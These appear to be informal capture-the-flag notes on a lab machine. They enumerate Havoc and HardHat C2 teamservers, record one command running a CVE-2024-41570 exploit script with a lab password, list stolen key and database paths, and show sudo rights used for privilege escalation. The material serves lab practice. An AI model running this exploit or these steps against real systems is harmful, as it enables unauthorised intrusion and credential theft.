 

Disable TLS for Websocket management port 40056, so I can prove that
sergej is not doing any work
Management port only allows local connections (we use ssh forwarding) so 
this will not compromize our teamserver

*there should b websocket connection here*


there is a havoc C2 running on the machine


Havoc teamserver 
havoc client

client is used to connect to teamserver

beacons go to teamserver



both port 8000 and 443 are using HTTP/1.1


port 443 could be the listener for the C2 that would make sense but being proxied by nginx??? not sure

can I smuggle HTTP requests and reach the teamserver? the websocket/teamserver




*this command worked with the CVE*
python3 CVE-2024-41570.py -t https://backfire.htb:443 --ip 127.0.0.1 -p 40056 -U 'sergej' -P '1w4nt2sw1tch2h4rdh4tc2'




sergej      7020  3.5  6.7 274271308 268284 ?    Ssl  16:30   0:09 /home/sergej/.dotnet/dotnet run --project HardHatC2Client --configuration Release
sergej      7097  1.5  3.2 274195056 128564 ?    Sl   16:30   0:03  _ /home/sergej/HardHatC2/HardHatC2Client/bin/Release/net7.0/HardHatC2Client
sergej      7021  1.6  6.4 274255728 255100 ?    Ssl  16:30   0:04 /home/sergej/.dotnet/dotnet run --project TeamServer --configuration Release
home/sergej/HardHatC2/TeamServer/bin/Release/net7.0/TeamServer0:02  _ /--More--(26%)
ilya        7511  4.0  0.5 1614172 20876 ?       Ssl  16:34   0:00 /home/ilya/Havoc/havoc server --profile /home/ilya/files/havoc.yaotl
  └─(Caps) 0x0000000000000400=cap_net_bind_service



hardhat is running as sergej

127.0.1.1	backfire.backfire.htb	backfire



/home/ilya/Havoc/data/loot/2025.08.13._16:34:01/teamserver.log
/home/ilya/Havoc/data/loot/2025.08.13._16:34:01/listener/DemonListener/server.key
server.crt   voc/data/loot/2025.08.13._16:34:01/listener/DemonListener/--More--(92%)
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/teamserver.log
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/listener/DemonListener/server.key
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/listener/DemonListener/server.crt
/home/ilya/Havoc/data/server.key
/home/ilya/Havoc/data/server.cert
/home/ilya/Havoc/data/teamserver.db


/home/ilya/Havoc/data/teamserver.db






theres another CVE for hardhat 




*got sergej*

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save